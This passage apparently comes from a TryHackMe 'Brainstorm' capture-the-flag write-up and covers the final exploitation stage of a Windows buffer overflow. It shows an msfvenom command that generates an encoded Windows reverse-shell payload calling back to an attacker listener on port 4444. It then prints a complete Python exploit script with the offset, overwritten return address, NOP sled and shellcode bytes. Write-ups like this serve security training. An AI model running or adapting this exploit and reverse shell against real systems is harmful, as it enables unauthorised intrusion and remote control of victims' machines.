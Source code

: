 
**Generating shellcode**

Since we are dealing with a windows executable, generate a shellcode specific to that using msfvenom

![image](/posts/2021-03-28_tryhackme-brainstorm/images/25.png#layoutTextWidth)
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.103 LPORT=4444 -e x86/shikata_ga_nai -f py -b &#34;\x00&#34;`

Copy the shellcode into our program. Our final script looks as follows
`import socket``import struct``IP = &#34;192.168.0.104&#34;``PORT = 9999``s = socket.socket()``s.connect((IP,PORT))``username = b&#34;SAUDI&#34;``new_eip = struct.pack(&#34;&lt;I&#34;,0x62501503)``badchars = b&#34;&#34;.join([struct.pack(&#34;&lt;B&#34;,x)for x in range(1,256)])``buf =  b&#34;&#34;``buf += b&#34;\xbd\xaf\x88\xc7\xb6\xdb\xd5\xd9\x74\x24\xf4\x5e\x2b&#34;``buf += b&#34;\xc9\xb1\x52\x31\x6e\x12\x83\xc6\x04\x03\xc1\x86\x25&#34;``buf += b&#34;\x43\xe1\x7f\x2b\xac\x19\x80\x4c\x24\xfc\xb1\x4c\x52&#34;``buf += b&#34;\x75\xe1\x7c\x10\xdb\x0e\xf6\x74\xcf\x85\x7a\x51\xe0&#34;``buf += b&#34;\x2e\x30\x87\xcf\xaf\x69\xfb\x4e\x2c\x70\x28\xb0\x0d&#34;``buf += b&#34;\xbb\x3d\xb1\x4a\xa6\xcc\xe3\x03\xac\x63\x13\x27\xf8&#34;``buf += b&#34;\xbf\x98\x7b\xec\xc7\x7d\xcb\x0f\xe9\xd0\x47\x56\x29&#34;``buf += b&#34;\xd3\x84\xe2\x60\xcb\xc9\xcf\x3b\x60\x39\xbb\xbd\xa0&#34;``buf += b&#34;\x73\x44\x11\x8d\xbb\xb7\x6b\xca\x7c\x28\x1e\x22\x7f&#34;``buf += b&#34;\xd5\x19\xf1\xfd\x01\xaf\xe1\xa6\xc2\x17\xcd\x57\x06&#34;``buf += b&#34;\xc1\x86\x54\xe3\x85\xc0\x78\xf2\x4a\x7b\x84\x7f\x6d&#34;``buf += b&#34;\xab\x0c\x3b\x4a\x6f\x54\x9f\xf3\x36\x30\x4e\x0b\x28&#34;``buf += b&#34;\x9b\x2f\xa9\x23\x36\x3b\xc0\x6e\x5f\x88\xe9\x90\x9f&#34;``buf += b&#34;\x86\x7a\xe3\xad\x09\xd1\x6b\x9e\xc2\xff\x6c\xe1\xf8&#34;``buf += b&#34;\xb8\xe2\x1c\x03\xb9\x2b\xdb\x57\xe9\x43\xca\xd7\x62&#34;``buf += b&#34;\x93\xf3\x0d\x24\xc3\x5b\xfe\x85\xb3\x1b\xae\x6d\xd9&#34;``buf += b&#34;\x93\x91\x8e\xe2\x79\xba\x25\x19\xea\x05\x11\x21\x8d&#34;``buf += b&#34;\xed\x60\x21\x40\xb2\xed\xc7\x08\x5a\xb8\x50\xa5\xc3&#34;``buf += b&#34;\xe1\x2a\x54\x0b\x3c\x57\x56\x87\xb3\xa8\x19\x60\xb9&#34;``buf += b&#34;\xba\xce\x80\xf4\xe0\x59\x9e\x22\x8c\x06\x0d\xa9\x4c&#34;``buf += b&#34;\x40\x2e\x66\x1b\x05\x80\x7f\xc9\xbb\xbb\x29\xef\x41&#34;``buf += b&#34;\x5d\x11\xab\x9d\x9e\x9c\x32\x53\x9a\xba\x24\xad\x23&#34;``buf += b&#34;\x87\x10\x61\x72\x51\xce\xc7\x2c\x13\xb8\x91\x83\xfd&#34;``buf += b&#34;\x2c\x67\xe8\x3d\x2a\x68\x25\xc8\xd2\xd9\x90\x8d\xed&#34;``buf += b&#34;\xd6\x74\x1a\x96\x0a\xe5\xe5\x4d\x8f\x15\xac\xcf\xa6&#34;``buf += b&#34;\xbd\x69\x9a\xfa\xa3\x89\x71\x38\xda\x09\x73\xc1\x19&#34;``buf += b&#34;\x11\xf6\xc4\x66\x95\xeb\xb4\xf7\x70\x0b\x6a\xf7\x50&#34;``shellcode = buf``NOP_sled = &#34;\x90&#34; * 15``s.send(username)``s.recv(1024)``total_length = 4088``offset = 2012``buffer = [``b&#34;A&#34; * offset,``new_eip,``NOP_sled,``shellcode,``b&#34;C&#34; *(total_length - offset - len(new_eip) - len(shellcode))``]``buffer = b&#34;&#34;.join(buffer)``s.send(buffer)`
